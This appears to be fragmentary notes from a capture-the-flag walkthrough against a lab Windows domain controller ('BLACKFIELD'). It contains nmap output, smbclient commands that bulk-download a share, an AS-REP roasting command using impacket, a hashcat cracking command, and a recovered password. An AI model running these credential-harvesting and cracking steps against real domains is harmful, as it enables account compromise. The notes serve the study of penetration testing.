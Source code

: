 10.129.229.17:53

10.129.229.17:88

10.129.229.17:139

10.129.229.17:135

10.129.229.17:389

10.129.229.17:389

10.129.229.17:445

10.129.229.17:445

10.129.229.17:593

10.129.229.17:3268

10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus

88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)

135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC

139/tcp filtered netbios-ssn no-response

389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)

445/tcp open microsoft-ds? syn-ack ttl 127

593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0

636/tcp filtered ldapssl no-response

3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)

3269/tcp filtered globalcatLDAPssl no-response

5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

|_http-server-header: Microsoft-HTTPAPI/2.0

|_http-title: Not Found

9389/tcp filtered adws no-response

Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

![file:///tmp/.LMM8U2/1.png](file:///tmp/.LMM8U2/1.png)

mask ""

recurse ON

prompt OFF

cd 'path\to\remote\dir'

lcd '~/path/to/download/to/'

mget *

![file:///tmp/.LMM8U2/2.png](file:///tmp/.LMM8U2/2.png)

impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt

#00^BlackKnight

![file:///tmp/.LMM8U2/3.png](file:///tmp/.LMM8U2/3.png)

![file:///tmp/.LMM8U2/4.png](file:///tmp/.LMM8U2/4.png)